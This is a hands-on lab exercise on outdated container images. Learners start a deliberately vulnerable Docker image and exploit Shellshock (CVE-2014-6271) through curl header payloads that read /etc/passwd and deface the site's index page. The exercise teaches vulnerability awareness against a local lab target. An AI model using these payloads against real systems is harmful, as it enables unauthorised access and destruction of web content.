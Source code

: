 # Vulnerable Libraries
> Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.

### **Lab Image : Containers**

* Step 1: Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Step 2: Open another browser tab, on the address bar, add `:8080` and press `Enter`.

* Step 3: From the terminal exploit the vulnerability and access `/etc/passwd` of the vulnerable container

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 4: By exploiting ShellShock, deface the website

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 5: Open another browser tab, on the address bar, add `:8080` and press `Enter`. and check the site.


### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://nvd.nist.gov/vuln/detail/CVE-2014-6271
* https://hub.docker.com/r/vulnerables/cve-2014-6271/
